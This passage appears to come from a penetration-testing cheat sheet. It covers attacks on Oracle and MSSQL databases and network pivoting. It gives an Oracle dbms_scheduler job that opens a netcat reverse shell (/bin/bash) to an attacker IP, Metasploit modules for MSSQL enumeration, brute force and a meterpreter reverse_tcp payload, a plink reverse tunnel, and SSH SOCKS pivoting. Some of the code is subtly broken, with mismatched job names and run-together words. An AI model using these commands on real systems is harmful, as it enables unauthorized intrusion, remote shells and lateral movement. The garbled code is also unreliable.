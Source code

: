 Verify you have DBA privileges by re-running the first command again.

##### **Remove the exploit using:**

drop index exploit_1337;

##### **Get Oracle Reverse os-shell:**

begindbms_scheduler.create_job( job_name => 'MEH1337',job_type => 'EXECUTABLE',job_action => '/bin/nc',number_of_arguments => 4,start_date => SYSTIMESTAMP,enabled => FALSE,auto_drop => TRUE); dbms_scheduler.set_job_argument_value('rev_shell', 1, 'TARGET-IP');dbms_scheduler.set_job_argument_value('rev_shell', 2, '443');dbms_scheduler.set_job_argument_value('rev_shell', 3, '-e');dbms_scheduler.set_job_argument_value('rev_shell', 4, '/bin/bash');dbms_scheduler.enable('rev_shell'); end;

### MSSQL

Enumeration / Discovery:

Nmap:

nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
Metasploit:

msf > use auxiliary/scanner/mssql/mssql_ping

##### **Use MS SQL Servers Browse For More**

Try using "Browse for More" via MS SQL Server Management Studio

#### **Bruteforce MSSQL Login**

msf > use auxiliary/admin/mssql/mssql_enum

#### **Metasploit MSSQL Shell**

msf > use exploit/windows/mssql/mssql_payloadmsf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp

## **Network**

### Plink.exe Tunnel

PuTTY Link tunnel

Forward remote port to local address:

plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP

### Pivoting

#### **SSH Pivoting**

ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip
Add socks4 127.0.0.1 1010 in /etc/proxychains.conf

SSH pivoting from one network to another:
